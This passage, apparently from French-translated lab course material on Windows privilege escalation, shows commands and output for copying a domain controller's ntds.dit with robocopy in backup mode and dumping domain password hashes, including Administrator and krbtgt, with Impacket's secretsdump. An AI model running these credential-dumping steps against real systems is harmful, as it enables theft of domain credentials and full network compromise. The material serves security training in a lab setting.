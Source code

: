 Extraction de hachages à l'aide de SecretsDump

```
dsgsec@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL

Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Clé de démarrage du système cible : 0xc0a9116f907bd37afaaa845cb87d0550
[*] Vidage des identifiants de domaine (domain\uid:rid:lmhash:nthash)
[*] Recherche de pekList, soyez patient
[*] PEK # 0 trouvé et décrypté : 85541c20c346e3198a3ae2c09df7f330
[*] Lecture et décryptage des hachages de ntds.dit
Administrateur:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
Invité:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 :::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484 :::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129 :::
htb-étudiant:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5 :::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
printvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::

<SNIP>

```

* * * * *

Robocopie
--------

#### Copier des fichiers avec Robocopy

L'utilitaire intégré [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) peut également être utilisé pour copier des fichiers en mode de sauvegarde. Robocopy est un outil de réplication d'annuaire en ligne de commande. Il peut être utilisé pour créer des tâches de sauvegarde et inclut des fonctionnalités telles que la copie multithread, la nouvelle tentative automatique, la possibilité de reprendre la copie, etc. Robocopy diffère de la commande `copy` en ce sens qu'au lieu de simplement copier tous les fichiers, il peut vérifier le répertoire de destination et supprimer les fichiers qui ne se trouvent plus dans le répertoire source.ry. Il peut également comparer les fichiers avant de les copier pour gagner du temps en ne copiant pas les fichiers qui n'ont pas été modifiés depuis la dernière tâche de copie/sauvegarde exécutée.

Copier des fichiers avec Robocopy

```
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit

-------------------------------------------------- -----------------------------
    ROBOCOPY :: Copie de fichiers robuste pour Windows
-------------------------------------------------- -----------------------------

   Début : jeudi 6 mai 2021 13:11:47
    Source : E:\Windows\NTDS\
      Destination : C:\Tools\ntds

     Fichiers : ntds.dit

   Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

-------------------------------------------------- -------------------------------------

           Nouveau répertoire 1 E:\Windows\NTDS\
100 % nouveau fichier 16,0 m ntds.dit

-------------------------------------------------- -------------------------------------

```